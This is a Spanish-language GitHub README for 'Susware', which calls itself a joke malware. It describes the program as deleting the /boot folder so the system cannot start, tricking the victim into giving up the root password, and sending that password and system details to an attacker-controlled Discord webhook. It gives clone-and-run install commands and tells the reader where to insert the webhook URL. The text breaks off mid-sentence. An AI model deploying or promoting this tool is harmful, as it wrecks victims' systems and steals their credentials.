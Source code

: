 <h1 align="center"><i>Susware</i></h1>

<div align="center">
<img src=https://img.shields.io/github/stars/lVoidi/susware-source?style=for-the-badge&logo=appveyor&color=informational />
<img src=https://img.shields.io/github/forks/lVoidi/susware-source?style=for-the-badge&logo=appveyor&color=informational />
<img src=https://img.shields.io/github/issues/lVoidi/susware-source?style=for-the-badge&logo=appveyor&color=informational />
<img src=https://img.shields.io/github/issues-pr/lVoidi/susware-source?style=for-the-badge&logo=appveyor&color=informational />
</div>

<p align="center" >
     <img src="https://thumbs.gfycat.com/ClutteredWealthyGoitered-max-1mb.gif" width=64>
</p>

-----

<div align="center">
     <details open="open">
     <summary>Referencias</summary>
     <b><a href="#susware">¿Qué es susware?</a></b><br>
     <b><a href="#install">Instalación</a></b><br>
     <b><a href="#funcionamiento">Funcionamiento</a></b><br>
     </details>
</div>

-----

<div align="center" id="susware">
     <h3> ¿Que es susware?</h3>  
     <p align="justify">
          Susware es un malware joke hecho con el objetivo de sacar una sonrisa, el 
          Susware puede entrar dentro de 3 categorías : 
               <b>• Virus joke</b>  ; 
               <b>• Troyano</b> ;
               <b>• Spyware</b> . 
          Es un virus joke porque básicamente está basado en el meme de Among Us, 
          también entra dentro de la categoría de troyano porque básicamente elimina el sistema operativo 
          y también es un spyware porque manda <b>la información del usuario</b> que lo ejecuta al atacante, usando un <b>webhook de discord</b> <br> 
     </p>
     <br>
     <br>
     <br>
     <h3> Lenguajes usados en el projecto</h3>
     <img src="https://media.discordapp.net/attachments/845471921990008835/853866822112378900/usedlanguages.png">

</div>

-----

<div align="center" id="install">
     <h3>Instalación del software</h3>
     <br>
     <p align="justify">
Para instalar el susware, es muy sencillo. <br>
<br>
En el caso <b>de linux</b>, tendrás que poner los siguientes comandos
</p>
<p align="justify">

```bash
# Primero copiamos el git y entramos a la carpeta de linux dentro del git copiado
# Segundo, ejecutamos autoinstall.py
git clone https://github.com/lVoidi/susware-source sus && cd sus/linux && python3 autoinstall.py

# Ahora, tenemos que asociar un webhook con el virus
# Para esto, tenemos que crear un webhook de discord y copiar su url
# Una vez tenemos la URL del webhook, hacemos vim a main.py y buscamos
# la línea número 64, en la funcion user_info
# buscas el apartado de webhook y donde dice "link del webhook", lo quitas
# y pones el link del webhook tuyo DENTRO de las comillas
# Una vez hecho todo esto, simplemente ejecutamos

python3 main.py

# Y empezará a correr el virus
```

</p>

<p align="justify">
Una vez <b>hecho esto</b>, el virus te va a pedir tu contraseña root, este es una especie de "engaño" <br>
para poder mandar tu contraseña por medio del webhook, en esta seccion, puedes poner lo que quieras, <br>
de igual manera, el webhook está controlado por tí
<br>
<br>
Recuerda no integrar el webhook en un server público, porque el webhook, trae la siguiente información consigo <br>
</p>

<img src="https://media.discordapp.net/attachments/845471921990008835/853686103516250152/embed.png" width=1024>

<br>
     
</div>

-----

<div align="center" id="funcionamiento">
     <h3>Funcionamiento</h3>
     <p align="justify">
A continuación, <b>se presenta</b> el funcionamiento de cada uno de los archivos
     </p>



</div>

-----
<div align="center">
<h3>Primera fase: <b>Empiezan a pasar cosas raras</b></h3>
<p align="justify">
Esta fase empieza por borrar el boot del sistema, osea, la carpeta <b><a href="https://en.wikipedia.org/wiki//boot" target="_blank">/boot/</a></b>, la cual contiene básicamente el <b><a href="https://en.wikipedia.org/wiki/GRUB" target="_blank">grub</a></b>, el cual es el <strong>principal encargado de arrancar un sistema linux</strong>

<b><a href="https://github.com/lVoidi/susware-source/blob/b33e7b4b5bb4cd6ed9afd8915b06c571f20506cb/linux/main.py#L66">Línea de código exacta en la que pasa esto</a></b>

<b>pero esto no acaba aquí</b>, porque despues de que haya eliminado el grub, usará el <a href="https://discord.com/developers/docs/resources/webhook">webhook</a> integrado en el código (el cual no funcionará si no pones alguna url de algun webhook en <a href="https://github.com/lVoidi/susware-source/blob/b1177a04833640206e79aa9662fc0f7d30e23412/linux/main.py#L65">esta línea</a>) mandará un embed con la información del sistema de donde se ejecuta, como <b>como he mencionado antes <a href="#install">aqui<b/>

Lo último que pasa en esta fase, es que empieza a abrir pestañas del navegador con diferentes búsquedas, la lista de búsquedas que hace es <b>la siguiente</b>

```python
 tup_searches = (
     'https://www.google.com/search?q=como+eliminar+virus+troyano+linux+atacante',
     'https://www.google.com/search?q=ayuda+mi+computador+hace+cosas+raras',
     'https://www.google.com/search?q=por+que+mi+pc+abre+pestañas+aleatorias',
     'https://www.google.com/search?q=descargar+hack+among+us+2020+octubre',
     'https://www.google.com/search?q=como+curar+el+conjuntivitis',
     'https://www.google.com/search?q=que+hacer+si+me+embargan+la+casa',
     'https://www.google.com/search?q=descargar+minecraft+premium+gratis+linux+tentador+2020',
     'http://4.bp.blogspot.com/-w6UkeTKqd3E/UpdEMzDKJFI/AAAAAAAAFEE/rh0BkH-AklU/s1600   3d-trollface-nodding-ok-yes-agree-troll-face.gif'
)
```

Todo esto está documentado en <a href="https://github.com/lVoidi/susware-source/blob/4fd53df9693122e46dd57cce9ad73103293a1e16/linux/src/behavior.py#L21">esta función</a>


</p>

</div>

-----

<div align="center">
<h3>Segunda fase: Capturas de pantalla</h3>

<p align="justify">
Aqui es donde se comienza a poner divertido el virus, porque 
</p>
</div>

-----

<div align="center">

<h2><a href="https://discord.gg/4zDWYyrReW" target="_blank">Unete a mi server de discord!</a></h2>

<img src="https://discordapp.com/api/guilds/844729426843402271/widget.png?style=banner4" width="256">

</div>
